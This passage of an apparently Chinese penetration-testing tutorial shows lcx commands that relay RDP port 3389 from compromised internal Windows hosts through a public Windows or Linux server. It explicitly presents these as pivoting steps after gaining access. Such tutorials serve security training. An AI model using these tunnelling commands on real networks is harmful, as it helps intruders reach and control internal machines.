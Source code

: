 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kZvykKhbOjHK3945tncXZjfPcD8sU0FSe1a4L48A89XBtfY3Z9IeZrA/640?wx_fmt=png)

于是，我们还可以利用 lcx 来进行 3389 端口的转发。

在公网 windows 服务器上的操作

```
lcx.exe -tran 3340 192.168.10.18 3389  #意思就是将本地的3340端口的流量转发给192.168.10.18主机的3389端口
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k0MOS6xOSMpicxRGuicCEuvLeib0Ffp8ZBslzIk4QRUqRj1UK9dhyJDsZg/640?wx_fmt=png)

于是，我们远程连接公网服务器 100.100.10.14 的 3340 端口

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kP021VrFECWQPZUghkv1yT9sm9piasPibrFEMb51jkg27ub4ia5TJ95X4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kFXLCYGDcial2T2icUywffBibE3qSIgBY08BTzmNK4bQGObQvTGnjmyPibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC7z9w4dqqVqwbdB8BQeP3seqRYCqXRtsWnibp6j9uhtPxjHFicRt2p6bO9zJnVo1EwE8fmjyY9ibqQ4Q/640?wx_fmt=gif)

### LCX 实现 3389 到内网主机 (公网服务器是 Linux)

现在我们有这么一个环境，我们获得了公网 Linux 服务器的权限，并且通过公网服务器进一步的内网渗透，得到了内网 Windows 主机的权限。拓扑图如下。现在我们想 3389 连接到内网 Windows 服务器。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k2fIsmcoAbIjmCCd4Yib24w2pkbtaN03BP93Ft7EsPEQJNSxXWfYhp1Q/640?wx_fmt=png)

在公网 Linux 服务器上的操作

```
./lcx -m 2 -p1 23389 -h2 127.0.0.1 -p2 13389    #监听本地23389的流量转发给本地的13389端口，正向代理
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k7UJ36Xr8Zk3ahml3bdZiaeD25rAGPDLt2DyRfsPj0wwLzX1HViaDhOiaA/640?wx_fmt=png)

在内网 Windows 服务器上的操作

```
lcx.exe -slave 192.168.10.20 13389 127.0.0.1 3389  #将本地3389端口的流量都转发给192.168.10.20，反向代理
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kiaFNkZdlBND6hh8uGrU3YYW1AYvxxLQ8naCRIhsJpnWFBg1gmBNJ1fg/640?wx_fmt=png)

远程连接公网服务器的 23389 端口即可

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kQhaPrDAaHuvCby9PL4psGnXGdHfygTrE1hIwa0qUShK4DB6daESSicw/640?wx_fmt=png)

本文所用工具下载：关注微信公众号：xie_sec 回复：内网转发工具 即可下载。本工具仅供学习使用，请勿用于非法途径！

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC6ubaQYBoibHTEC2Q0go0k47ysAvibce8dvgicXVCUx8a15kJ57AGoTCL3icgHSuxI2uzR0Gg3LQ4eNHw/640?wx_fmt=png)

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFgwuEp9SUZPx1nFQ8GW7lWHnnImWeVFF9wBDK21ecqM7sOIV7WVEKzkhHy3nsLFOIx8lkWp4BIQRQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490017&idx=1&sn=426336dfeeda818b0772b3c44703e173&chksm=fc781d3ccb0f942a7c07662752bb2f6983eb9c249c0d6b833f058b1d95fc7080d2d2598054ac&scene=21#wechat_redirect)
